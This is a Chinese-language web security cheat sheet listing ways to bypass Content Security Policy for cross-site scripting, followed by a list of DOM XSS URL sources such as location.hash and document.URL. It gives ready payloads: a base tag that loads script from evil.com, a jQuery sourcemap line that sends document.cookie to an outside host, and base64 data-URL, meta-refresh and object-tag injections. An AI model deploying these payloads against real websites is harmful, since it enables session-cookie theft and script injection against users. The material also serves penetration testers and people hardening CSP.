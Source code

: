 

###  base-uri

当script-src为nonce或无限制，且base-uri无限制时，可通过 `base` 标签修改根URL来bypass，如下加载了http://evil.com/main.js

```js
<base href="http://evil.com/">
<script nonce="correct value" src="/main.js"></script>
```



###  其他

- location 绕过

- 可上传SVG时，通过恶意SVG绕过同源站点

- 存在CRLF漏洞且可控点在CSP上方时，可以注入HTTP响应中影响CSP解析

- CND Bypass，如果网站信任了某个CDN, 那么可利用相应CDN的静态资源bypass

- Angular versions <1.5.9 >=1.5.0，存在漏洞 [Git Pull Request](https://github.com/angular/angular.js/pull/15346)

- - jQuery sourcemap

    `document.write(`<script> //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);`` `

- a标签的ping属性

- For FireFox `<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">`

- `<link rel="import" />`

- `<meta http-equiv="refresh" content="0; url=http://...." />`

- - 仅限制 `script-src` 时：

    `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>`



# XSS数据源

## URL

- `location`
- `location.href`
- `location.pathname`
- `location.search`
- `location.hash`
- `document.URL`
- `document.documentURI`
- `document.baseURI`
